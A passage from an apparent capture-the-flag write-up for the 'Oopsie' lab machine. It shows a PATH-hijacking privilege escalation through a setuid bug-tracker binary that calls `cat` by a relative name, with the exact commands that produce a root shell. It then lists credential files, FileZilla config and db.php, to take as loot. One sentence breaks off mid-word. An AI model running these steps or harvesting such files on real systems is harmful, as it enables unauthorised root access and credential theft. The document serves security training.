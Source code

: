 ...
$ strings /usr/bin/bugtracker
   ...
   _ITM_registerTMCloneTable
   AWAVI
   AUATL
   [ ]A\A]A^A_
   :  EV Bug Tracker :
   Provide Bug ID: 
   cat /root/reports/   <---- here
   ;*3$"
   GCC: (Ubuntu 7.4.0-1ubuntu1~18.04.1) 7.4.0
   ...
```

We can see that it's using a relative call to the `cat` command. This means it's ripe for injecting a malicious binary into $PATH:

```
robert@oopsie:~$ cd /tmp
robert@oopsie:/tmp$ echo "/bin/sh" > cat
robert@oopsie:/tmp$ chmod +x cat
robert@oopsie:/tmp$ export PATH=/tmp:$PATH
robert@oopsie:/tmp$ bugtracker 
   
   - -----------------
   :  EV Bug Tracker :
   - -----------------
   
   Provide Bug ID: 1
   
   \# whoami
   root
```

Now we grab the root.txt flag from /root and submit it.

### Post Exploitation

Now that we know all the boxes are related, it's important to take a closer look around after we get root.  

Looking in the reports folder in the root directory, we see some bug reports talking about ".config/filezilla" -- sure enough, this file exists in the root directory.  This seems to talk about 10.10.10.48 which mig

We also had a "garage" database mentioned in db.php

Let's grab down all our loot and save it for later:

* /root/.config/filezilla/filezilla.xml
* /var/www/html/cdn-cgi/login/db.php


